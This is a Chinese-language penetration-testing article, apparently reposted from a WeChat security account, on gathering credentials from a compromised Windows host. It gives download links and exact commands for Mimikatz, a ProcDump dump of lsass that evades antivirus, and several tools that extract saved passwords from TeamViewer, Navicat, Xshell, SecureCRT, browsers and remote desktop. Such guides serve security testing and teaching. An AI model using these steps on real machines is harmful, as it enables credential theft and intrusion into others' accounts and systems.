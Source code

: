 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Fszzammm9h_GJdyaR9X4JQ)

> 介绍：本文介绍了几种`windows`下登录凭证的获取技巧。  
> 
> 转自『宸极实验室』公众号。

**0x00 前言**
-----------

在渗透测试中，当我们拿下一台`windows`主机后，通常要对主机上的一些密码做信息收集，以便后续渗透使用，本文介绍了几种`windows`下常见的收集密码的方式。

**0x01 windows 主机密码抓取**
-----------------------

### **1.1 Mimikatz**

`windows`密码抓取神器，从`windows`系统进程`lsass.exe`中抓取明文密码。

• 下载地址：

```
https://github.com/gentilkiwi/Mimikatz
```

• 使用方法：管理员权限运行`Mimikatz.exe`，执行下面的命令：

```
privilege::debug   提取权限
sekurlsa::logonpasswords   抓取密码
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/4136w7o9JvfUNwkO1J4dzGPVoyXsq2K8ialhAfBVfrzRTL4Oib2Us9f6ZeCcrVqnl3YzCqqHdZoddMyic8ngN0q8w/640?wx_fmt=jpeg)

### **1.2 ProcDump + Mimikatz**

如果主机上装了杀毒软件，开了防火墙，例如：360、火绒之类的话。`Mimikatz`就会被检测为病毒，无法使用。

由于`Mimikatz`是从`lsass.exe`中提取明文密码的，当无法在目标机器上运行`Mimikatz`时，我们可使用`ProcDump`工具将系统的`lsass.exe`进程进行转储，导出 dmp 文件，拖回到本地后，在本地再利用`Mimikatz`进行读取。

`ProcDump`本身是作为一个正常的运维辅助工具使用，并不带毒，所以不会被杀软查杀。

• 下载地址：

```
https://docs.microsoft.com/zh-cn/sysinternals/downloads/ProcDump
```

• 使用方法：

```
# 将工具拷贝到目标机器上执行如下命令（需要管理员权限）
ProcDump.exe -accepteula -ma lsass.exe lsass.dmp

Mimikatz# sekurlsa::minidump lsass.dmp

Mimikatz# sekurlsa::logonPasswords full
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/4136w7o9JvfUNwkO1J4dzGPVoyXsq2K8vMKPiacntr5hxqFL2cEkweKL9DzLGZIeTnxMpibjia58wBAfaxOjibrWjA/640?wx_fmt=jpeg)

### **1.3 PwDump7**

![](https://mmbiz.qpic.cn/mmbiz_jpg/4136w7o9JvfUNwkO1J4dzGPVoyXsq2K8w6b4kxnZNyaMzOLKE5z65TJWVeMPW2jlDLMXicSj7ia8AeuJwzuHzQibA/640?wx_fmt=jpeg)

使用该工具获取`hash`值之后，可到`cmd5.com`进行解密。

![](https://mmbiz.qpic.cn/mmbiz_jpg/4136w7o9JvfUNwkO1J4dzGPVoyXsq2K8oXK3co4YficvzJ8yh4p19s7FIhjqrpcFomUEB8FHpz7egKIECcMCn8Q/640?wx_fmt=jpeg)

### **1.4 Getpass**

• 下载地址：

```
https://raw.githubusercontent.com/k8gege/K8tools/master/GetPassword_x64.rar
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/4136w7o9JvfUNwkO1J4dzGPVoyXsq2K85EGic6IgibLibC6NqaEphtBPYibTIApIZ6lWOibRCqHRcV796libxluULVIQ/640?wx_fmt=jpeg)

**0x02 第三方运维工具密码抓取**
--------------------

### **2.1 TeamViewer**

• 下载地址：

```
https://github.com/uknowsec/SharpDecryptPwd/raw/master/SharpDecryptPwd.exe
```

• 使用方法：

```
SharpDecryptPwd.exe -TeamViewer
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/4136w7o9JvfUNwkO1J4dzGPVoyXsq2K82fdcN6IiaBSaicm38OnDhdYHbZoAo16jtEU3qicLy6qGdsLPhrhEaaYTg/640?wx_fmt=jpeg)

### **2.2 Navicat**

• 下载地址：

```
https://github.com/uknowsec/SharpDecryptPwd/raw/master/SharpDecryptPwd.exe
```

• 使用方法：

```
SharpDecryptPwd.exe -NavicatCrypto
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/4136w7o9JvfUNwkO1J4dzGPVoyXsq2K8LmRNZjBcgb0pvibTic24mia4VGfibmtwuKn2HGRkDbq5ZibqQtNXFyic4XwA/640?wx_fmt=jpeg)

### **2.3 xshell**

• 下载地址：

```
https://github.com/uknowsec/SharpDecryptPwd/raw/master/SharpDecryptPwd.exe
```

• 使用方法：

```
先执行 `whoami /user` 将用户名和sid保存下来，然后再使用下面的命令:
SharpDecryptPwd.exe -Xmangager -p SessionPath -s username+sid
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/4136w7o9JvfUNwkO1J4dzGPVoyXsq2K83vJNOVoQXnbK8j3CJ2SOTCXAfbhJftOjvkibLibTqSFOAkeLcy0OwIxw/640?wx_fmt=jpeg)

### **2.4 securecrt**

• 下载地址：

```
https://github.com/hustlibraco/Moye/blob/master/SecureCRTDecrypt.py
```

• 使用方法：

```
解密secureCRT保存的密码
1. 找到密码保存位置，每台服务器一个ini文件，windows系统位于
* 用户名\AppData\Roaming\VanDyke\Config\Sessions\    （安装版）
*SecureCRTSecureFX_hh_x86_7.0.0.326\Data\Settings\Config\Sessions  （绿色移动版）
2. 执行脚本，python SecureCRTDecrypt.py [filename...]
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/4136w7o9JvfUNwkO1J4dzGPVoyXsq2K8ZNiaOhBTl94NyPl0UeOicbov6Mib1wGhb2wSs9a9mj7VQD5kre0pgL1Zw/640?wx_fmt=jpeg)

**0x03 浏览器密码抓取**
----------------

### **3.1 LaZagne**

• 下载地址：

```
https://github.com/ethicalhackeragnidhra/LaZagne/archive/2.3.1.zip
```

• 使用方法：

```
laZagne.exe browsers
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/4136w7o9JvfUNwkO1J4dzGPVoyXsq2K8S3q8fGsfgZnCX1ukrc8PEToEGUwDcA91mPxGAKjXp0vV5BW46o9rRA/640?wx_fmt=jpeg)

### **3.2 BrowserPasswordDump**

• 下载地址：

```
https://files1.majorgeeks.com/020c4877362530fccadf006a858f56ee9637177d/covertops/BrowserPasswordDump.zip
```

• 使用方法：

```
点击setup安装完成以后，即可提取出单文件来运行使用。
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/4136w7o9JvfUNwkO1J4dzGPVoyXsq2K8LEDsaxyLevAz5B6SfftZwjekMttb5PMmXFXeo8ic2jvxR9ibRcicHU7kQ/640?wx_fmt=jpeg)

**0x04 远程桌面连接密码抓取**
-------------------

### **4.1 netpass**

• 下载地址：

```
https://www.nirsoft.net/toolsdownload/netpass-x64.zip
```

• 使用说明：

```
使用管理员权限运行即可
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/4136w7o9JvfUNwkO1J4dzGPVoyXsq2K8ECFS5ic61AXbeEzESQsumeiafJiacTgUibLsQ4L8Wksl3qkiaibV84KrKv7g/640?wx_fmt=jpeg)

**0x05 总结**
-----------

1、上述描述的抓取密码的方式，大部分需使用管理员权限才能抓取。

2、`windows`密码仅在`win2008`及以下可使用，`win10`及`server2012`及以上默认不保存明文密码，无法使用工具抓取。

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)  

“如侵权请私聊公众号删文”

****扫描关注 LemonSec****  

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icncXiavFRorU03O5AoZQYznLCnFJLs8RQbC9sltHYyicOu9uchegP88kUFsS8KjITnrQMfYp9g2vQfw/640?wx_fmt=png)

**觉得不错点个 **“赞”**、“在看” 哦****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**